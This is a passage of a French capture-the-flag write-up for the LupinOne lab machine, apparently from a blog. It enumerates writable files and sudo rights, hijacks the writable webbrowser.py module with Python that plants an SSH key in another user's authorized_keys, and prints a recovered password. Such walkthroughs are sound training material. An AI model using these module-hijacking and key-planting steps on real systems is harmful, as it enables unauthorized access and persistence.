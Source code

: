 Le code Python *heist.py* n'est pas modifiable par nous. Il ne fait qu'utiliser le module Python webrowser (qui permet d'ouvrir une page web sur votre système avec le navigateur par défaut).  

Du coup je ne suis pas vraiment surpris de retrouver le module parmi la liste des fichiers que je peux modifier :  

```plain

$ find / -writable 2> /dev/null  | grep -v /proc | grep -v /run

--- snip ---
/usr/lib/python3.9/webbrowser.py
--- snip ---

```

Maintenant comment lancer *heist.py* avec les droits d'Arsène ? Tâche planifiée ? En fait l'autorisation est donnée via sudo :  

```bash
$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

J'ai repris exactement la même méthodologie que pour le précédent CTF à savoir ajouter du code Python qui ajoute ma clé publique aux clés autorisées pour l'utilisateur :  

```python
import os
import stat

os.mkdir("/home/arsene/.ssh")
with open("/home/arsene/.ssh/authorized_keys", "w") as fd:
  fd.write("ssh-rsa --my-public-ssh-key--")

os.chmod("/home/arsene/.ssh/authorized_keys", stat.S_IREAD|stat.S_IWRITE)
```

Trophé
------

Une fois connecté en tant que Arsène ou peut lire le fichier secret :  

```bash
arsene@LupinOne:~$ cat .secret 
I dont like to forget my password "rQ8EE"UK,eV)weg~*nd-`5:{*"j7*Q"
```

Que peut-on faire avec un mot de passe ? Commençons par regarder du côté de sudo:  

```plain
arsene@LupinOne:~$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```
